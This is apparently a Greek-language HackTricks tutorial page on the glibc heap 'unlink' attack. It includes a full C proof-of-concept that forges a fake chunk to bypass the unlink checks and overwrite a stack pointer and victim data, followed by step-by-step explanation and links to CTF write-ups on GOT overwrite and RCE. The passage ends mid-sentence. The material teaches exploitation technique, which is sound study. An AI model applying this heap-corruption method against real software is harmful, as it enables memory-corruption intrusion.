 # Επίθεση Unlink

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Βασικές Πληροφορίες

Όταν ανακαλύφθηκε αυτή η επίθεση, κυρίως επέτρεπε ένα WWW (Write What Where), ωστόσο, προστέθηκαν **ελέγχοι** κάνοντας τη νέα έκδοση της επίθεσης πιο ενδιαφέρουσα και πιο πολύπλοκη και **άχρηστη**.

### Παράδειγμα Κώδικα:

<details>

<summary>Κώδικας</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Η επίθεση δεν λειτουργεί εάν χρησιμοποιούνται τα tcaches (μετά την έκδοση 2.26)

### Στόχος

Αυτή η επίθεση επιτρέπει να **αλλάξει ένα δείκτη ενός κομματιού ώστε να δείχνει 3 διευθύνσεις πριν από τον εαυτό του**. Εάν αυτή η νέα τοποθεσία (γύρω από το σημείο όπου βρισκόταν ο δείκτης) περιέχει ενδιαφέροντα πράγματα, όπως άλλες ελέγξιμες δεσμεύσεις / στοίβα..., είναι δυνατόν να διαβάσετε/αντικαταστήσετε αυτά για να προκαλέσετε μεγαλύτερη ζημιά.

* Εάν αυτός ο δείκτης βρισκόταν στη στοίβα, επειδή τώρα δείχνει 3 διευθύνσεις πριν από τον εαυτό του και ο χρήστης πιθανόν μπορεί να το διαβάσει και να το τροποποιήσει, θα είναι δυνατόν να διαρρεύσει ευαίσθητες πληροφορίες από τη στοίβα ή ακόμη και να τροποποιήσει τη διεύθυνση επιστροφής (ίσως) χωρίς να αγγίξει το canary
* Σε παραδείγματα CTF, αυτός ο δείκτης βρίσκεται σε έναν πίνακα δεικτών προς άλλες δεσμεύσεις, επομένως, καθιστώντας τον να δείχνει 3 διευθύνσεις πριν και να μπορεί να το διαβάσει και να το γράψει, είναι δυνατόν να κάνει τους άλλους δείκτες να δείχνουν σε άλλες διευθύνσεις.\
Καθώς πιθανόν ο χρήστης μπορεί να διαβάσει/γράψει επίσης τις άλλες δεσμεύσεις, μπορεί να διαρρεύσει πληροφορίες ή να αντικαταστήσει νέα διεύθυνση σε αυθαίρετες τοποθεσίες (όπως στο GOT).

### Απαιτήσεις

* Κάποιος έλεγχος σε μνήμη (π.χ. στοίβα) για να δημιουργήσει μερικά κομμάτια δίνοντας τιμές σε μερικά από τα χαρακτηριστικά.
* Διαρροή στη στοίβα για να ορίσει τους δείκτες του ψεύτικου κομματιού.

### Επίθεση

* Υπάρχουν δύο κομμάτια (chunk1 και chunk2)
* Ο επιτιθέμενος ελέγχει το περιεχόμενο του chunk1 και τους κεφαλίδες του chunk2.
* Στο chunk1 ο επιτιθέμενος δημιουργεί τη δομή ενός ψεύτικου κομματιού:
* Για να παρακάμψει τις προστασίες, βεβαιώνεται ότι το πεδίο `size` είναι σωστό για να αποφευχθεί το σφάλμα: `corrupted size vs. prev_size while consolidating`
* και τα πεδία `fd` και `bk` του ψεύτικου κομματιού δείχνουν εκεί όπου αποθηκεύεται ο δείκτης του chunk1 με μετατοπίσεις -3 και -2 αντίστοιχα, έτσι ώστε `fake_chunk->fd->bk` και `fake_chunk->bk->fd` να δείχνουν στη θέση στη μνήμη (στοίβα) όπου βρίσκεται η πραγματική διεύθυνση του chunk1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Οι κεφαλίδες του chunk2 τροποποιούνται για να υποδεικνύουν ότι το προηγούμενο κομμάτι δεν χρησιμοποιείται και ότι το μέγεθος είναι το μέγεθος του ψεύτικου κομματιού που περιέχεται.
* Όταν απελευθερώνεται το δεύτερο κομμάτι τότε συμβαίνει η αποσύνδεση αυτού του ψεύτικου κομματιού:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Προηγουμένως έγινε ώστε `fake_chunk->fd->bk` και `fake_chunk->bk->fd` να δείχνουν στον ίδιο τόπο (τη θέση στη στοίβα όπου αποθηκευόταν το `chunk1`, έτσι ήταν μια έγκυρη συνδεδεμένη λίστα). Καθώς **και τα δύο δείχνουν στην ίδια τοποθεσία**, μόνο το τελευταίο (`fake_chunk->bk->fd = fake_chunk->fd`) θα έχει **επίδραση**.
* Αυτό θα **αντικαταστήσει τον δείκτη στο chunk1 στη στοίβα με τη διεύθυνση (ή bytes) που αποθηκεύεται 3 διευθύνσεις πριν στη στοίβα**.
* Επομένως, εάν ένας επιτιθέμενος μπορούσε να ελέγχει ξανά το περιεχόμενο του chunk1, θα μπορούσε να **γράψει μέσα στη στοίβα** είναι δυνατόν να αντικαταστήσει τη διεύθυνση επιστροφής παραλείποντας το canary και να τροποποιήσει τις τιμές και τους δείκτες των τοπικών μεταβλητών. Ακόμη, τροποποιώντας ξανά τη διεύθυνση του chunk1 που αποθηκεύεται στη στοίβα σε μια διαφορετική τοποθεσία όπου εάν ο επιτιθέμενος μπορούσε να ελέγχει ξανά το περιεχόμενο του chunk1 θα μπορούσε να γράψει οπουδήποτε.
* Να σημειωθεί ότι αυτό ήταν δυνατό επειδή οι **διευθύνσεις αποθηκεύονταν στη στοίβα**. Ο κίνδυνος και η εκμετάλλευση μπορεί να εξαρτώνται από το **πού αποθηκεύονται οι διευθύνσεις προς το ψεύτικο κομμάτι**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Αναφορές

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Αν και θα ήταν περίεργο να βρείτε μια επίθεση unlink ακόμη και σε ένα CTF, εδώ έχετε μερικά writeups όπου χρησιμοποιήθηκε αυτή η επίθεση:
* Παράδειγμα CTF: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* Σε αυτό το παράδειγμα, αντί για τη στοίβα υπάρχει ένας πίνακας από διευθύνσεις που έχουν δεσμευτεί με τη μέθοδο malloc. Η επίθεση unlink πραγματοποιείται για να είναι δυνατή η δέσμευση ενός κομματιού εδώ, επομένως είναι δυνατόν να ελέγχει τους δείκτες του πίνακα από τις διευθύνσεις που έχουν δεσμευτεί με τη μέθοδο malloc. Στη συνέχεια, υπάρχει μια άλλη λειτουργικότητα που επιτρέπει την τροποποίηση του περιεχομένου των κομματιών σε αυτές τις διευθύνσεις, η οποία επιτρέπει να δείχνουν οι διευθύνσεις στο GOT, να τροποποιούνται οι διευθύνσεις συναρτήσεων για να λάβουν διαρροές libc και RCE.
* Άλλο παράδειγμα CTF: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Όπως και στο προηγούμενο παράδειγμα, υπάρχει ένας πίνακας διευθύνσεων δεσμεύσεων. Είναι δυνατόν να πραγματοποιηθεί μια επίθεση unlink για να κάνει η διεύθυνση της πρώτης δέσμευσης να δείχνει λίγες θέσεις πριν από την έναρξη του πίνακα και να αντικαταστήσει αυτή τη δ
